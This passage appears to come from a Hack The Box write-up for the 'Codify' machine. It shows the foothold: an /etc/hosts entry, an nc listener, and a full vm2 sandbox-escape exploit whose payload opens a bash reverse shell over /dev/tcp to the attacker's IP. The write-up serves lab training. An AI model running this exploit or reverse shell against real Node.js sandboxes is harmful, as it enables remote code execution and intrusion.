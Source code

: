 <br>

### Foothold
add vhost to /etc/hosts

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
┌──(kali㉿kali)-[~]
└─$ echo "10.129.65.42 codify.htb" | sudo tee -a /etc/hosts   
[sudo] password for kali: 
10.129.65.42 codify.htb
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Going to the site, it's a nodejs sandbox environment which has an escape vulnerability.
With a bit of searching, I found an exploit which can be used to escape the environment https://gist.github.com/arkark/e9f5cf5782dec8321095be3e52acf5ac 

Used **nc** to listen to port 1234 and ran the exploit to get a reverse shell

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
┌──(kali㉿kali)-[~/HTB/Codify]
└─$ nc -lnvp 1234
listening on [any] 1234 ...
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
const { VM } = require("vm2");
const vm = new VM();

const code = `
  const err = new Error();
  err.name = {
    toString: new Proxy(() => "", {
      apply(target, thiz, args) {
        const process = args.constructor.constructor("return process")();
        throw process.mainModule.require("child_process").execSync("bash -c 'exec bash -i &>/dev/tcp/10.10.14.6/1234 <&1'").toString();
      },
    }),
  };
  try {
    err.stack;
  } catch (stdout) {
    stdout;
  }
`;

vm.run(code);
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


I find the user is using pm2 to run the webserver

See running processes
